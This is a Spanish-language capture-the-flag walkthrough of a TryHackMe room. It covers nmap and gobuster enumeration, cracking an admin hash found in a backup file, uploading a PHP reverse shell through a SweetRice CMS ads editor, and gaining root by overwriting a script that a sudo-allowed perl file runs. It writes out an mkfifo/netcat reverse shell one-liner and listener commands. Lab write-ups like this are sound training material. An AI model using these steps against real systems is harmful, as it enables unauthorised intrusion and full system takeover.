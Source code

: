 Bievenidos a otra sala en modo facil en TryHackMe. En esta ocasion usamos nuestro escaneo nmap para averiguar puertos abiertos. Luego enumeraremos con la herramienta `gobuster` para encontrar directorio ocultos dentro del servidor web. Confiscaremos las credenciales dentro de los directorios ocultos y generamos una reverse shell dentro de nuestra maquina atacante para poder enumerarla y escalar privilegios dentro del sistema enumerando permisos de superusuario.

# Recon
Iniciamos nuestro reconocimiento utilizando __nmap__. Le diremos que escanee todos los puertos abiertos, con una tasa de paquetes de 5000, en modo sigiloso sin activar las alertas de seguridad y haciendo el escaneo mas rapido, tambien le diremos que no compruebe si el objetivo este en linea, que no resuelva los nombres del host durante el escaneo evitando que los servidores __DNS__ registren el escaneo y haciendo el escaneo mucho mas rapido, tambien que nos muestre la version del servicio, y lo resuelva todo en modo agresivo "__T4__", usamos verbose para ver el progreso del escaneo y que guarde todo el proceso en formato normal, para luego poder echarle un vistazo siempre que querramos. Ejecutaremos nuestro comando : `sudo nmap  -p- --open --min-rate 5000 -sS -Pn -n -sV -T4 -vvv IPTARGET -oN nmap`

```ruby
Nmap scan report for IPTARGET
Host is up, received user-set (0.22s latency).
Scanned at 2023-07-01 06:48:25 EDT for 23s
Not shown: 65533 closed ports
Reason: 65533 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap

```

Nuestro escaneo de nmap nos muestra 2 puertos abiertos. Al navegar por el servidor web podemos ver que pertenece a un servidor apache y que no tenemos mucho que hacer en estos casos. Pasamos a enumerar directorios ocultos con la herramienta `gobuster`

Ejecutamos : `gobuster dir -u http://IPTARGET -w /Path/Wordlists`

```bash
=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://IPTARGET/
[+] Threads      : 10
[+] Wordlist     : /usr/share/dirb/wordlists/big.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2023/07/01 06:52:31 Starting gobuster
=====================================================
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/content (Status: 301)
```

Encontramos /content como directorio oculto, pero nuevamente no podemos hacer mucho. En esto casos es mejor volver a utilizar gobuster pero enumerando el directorio que acabamos de descubrir /content.

Ejecutamos :`gobuster dir -u http://IPTARGET/content -w /Path/Wordlists`

```bash
=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://IPTARGET/content/
[+] Threads      : 10
[+] Wordlist     : /usr/share/dirb/wordlists/big.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2023/07/01 06:55:52 Starting gobuster
=====================================================
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/_themes (Status: 301)
/as (Status: 301)
/attachment (Status: 301)
/images (Status: 301)
/inc (Status: 301)
/js (Status: 301)
Progress: 17512 / 20470 (85.55%)
```

Vemos varios directorios que pertenecen a /content. Una vez nos explorados, en el directorio /inc encontramos una carpeta **my_sql** que contiene un archivo backup.

# Intrusion

Una vez descargado el backup, usamo `cat` para ver el contenido por posibles credenciales del usuario. Si nos fijamos en esta parte del backup, vamos a obtener las credenciales que utiliza nuestra victima dentro del servidor web. 

```bash
"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice 
```

Vemos que la password esta protegida, en este caso utilizamos `hascat` o `crackstation` para poder crackearla. Como alternativa a `crackstation` podes ejecutar hashcat de la siguiente forma :

Primero, tenemos que descubrir que tipo de hash para poder indicarle a hashcat el tipo de hash que tiene que trabajar.

```
hashid "42f749ade7f9e195bf475f37a44cafcb"

hashcat -m 0 hash.txt /Path/Wordlists
```

Nos dirigimos al directorio /content/as para poder iniciar sesion con las credenciales que obtuvimos recientemente.

## Reverse shell

Buscaremos alguna columna que nos permita realizar una reverse shell dentro de nuestra maquina atacante. En la columna de **ads** nos indica que podemos editar codigo ads y ponerlo dentro de template. Nombramos test.php y pegamos nuestra reverse shell, bien conocida de pentestmonkey y nos ponemos en escucha en nuestra maquina atacante. 

`nc -nvlp LHOST`

Cargada nuestra shell, navegamos al directorio /content/inc en la carpeta /ads y clickeamos test.php. Revisamos nuestra shell y vemos que nuestro reverse shell se realizo con exito.

# Priv.Escalation

Upgradeamos nuestra shell para movermos libremente dentro del sistema

```bash
script /dev/null -c bash
  CTRL+Z
  stty raw -echo;fg
  export TERM=xterm
```

Podemos listar permisos con `sudo -l` y vemos que tiene permisos root ejecutando perl en el directorio /home/itguy/backup.pl.

Bien, ya sabemos la forma en la que podemos escalar privilegios, tenemos que echarle un vistazo al archivo "backup.pl" . `cat backup.pl`

```bash
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

 Vemos que el comando system está siendo utilizado para ejecutar un script de shell llamado copy.sh ubicado en /etc/. Podemos modificar el archivo **copy.sh** con una reverse shell que nos dara una terminal con privilegios de usuario raiz root.
Para esto, tenemos que dirigirnos al directorio **/etc** y sobreescribir el archivo utilizando echo.

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc LHOST LPORT >/tmp/f" > copy.sh
```

Nos ponemos en escucha y ejecutamos /usr/bin/perl como superusuario.

```bash
nc -nvlp LPORT --> Maquina atacante

sudo /usr/bin/perl /home/itguy/backup.pl
```
